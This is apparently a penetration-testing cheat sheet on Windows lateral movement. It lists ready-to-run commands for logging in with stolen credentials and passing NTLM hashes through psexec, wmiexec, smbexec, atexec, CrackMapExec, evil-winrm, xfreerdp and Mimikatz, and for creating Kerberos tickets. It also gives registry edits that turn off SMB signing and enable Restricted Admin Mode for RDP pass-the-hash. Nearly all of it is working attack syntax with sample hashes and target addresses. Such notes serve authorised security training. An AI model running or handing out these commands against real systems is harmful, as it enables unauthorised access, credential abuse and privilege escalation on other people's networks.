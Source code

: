## Windows Specifics
### Connect, Pivot, Elevate:  

    Connect via Creds:
        Port 22: SSH
        Port 23: Telnet
        Port 135/445:
            PsExec.exe domain/user@IP  \\  python3 psexec.py domain/user@IP
            python3 smbexec.py domain/user@IP
            wmiexec.exe domain/user@IP  \\  python3 wmiexec.py domain/user@IP
            winexe -U <domain/username>%<password> //<targetIP> cmd.exe
        Port 3389: RDP
              rdesktop [-d <DOMAIN>] -u <USERNAME> [-p <PASS>] <IP>  \\  xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP> +clipboard
        Port 5985/5986: winRM
            ruby evil-winrm.rb -i 10.0.0.20 -u user -p PASS

    Connect via Pass the Hash:
        https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
        //Only works for NTLM (not NTLMv2/Net-NTLM)
        RPC:
            Show Endpoints:  python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
            Connect:  pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
        Port 135/445:
            PSExec:  python3 psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
                MSF:  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
                If STATUS_ACCESS_DENIED (Command=117 WordCount=0):  set “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” RequireSecuritySignature to ‘0’
            *PTH-Winexe:  pth-winexe -U [domain/]offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd.exe
                Only replace after the ':'
            PTH-wmic:  pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
            WMIExec:  python3 wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79  \\  sudo python3 wmiexec.py -hashes :f6084ca1a4905c45747d4bdcc1fcab84 daisy@10.11.1.122
            *CrackMapExec:  crackmapexec smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79 -d domain.local [-x ipconfig]  \\  sudo crackmapexec ldap 10.11.1.120/29 -u daisy -H f6084ca1a4905c45747d4bdcc1fcab84
            SMBClient:  smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local  \\  python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
            ATExec:  python3 atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 cmd.exe
            Mount the Share: generate Kerberos ticket first (https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
        Port 3389 (Windows 2012 R2, 8.1): Restricted Admin Mode needs to be enabled (https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
            xfreerdp /u:offsec /d:win2012 /pth:2892d26cdf84d7a70e2eb3b9f05c425e /v:192.168.2.102
            Mimikatz/Mstsc:  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
            Might need to enable first:  crackmapexec smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
        Port 5985/5986:
            ruby evil-winrm.rb -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
        Through Kerberos Ticket:
            Create TGT:  python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user; cp user.ccache /tmp/krb5cc_0; export KRB5CCNAME=/tmp/krb5cc_0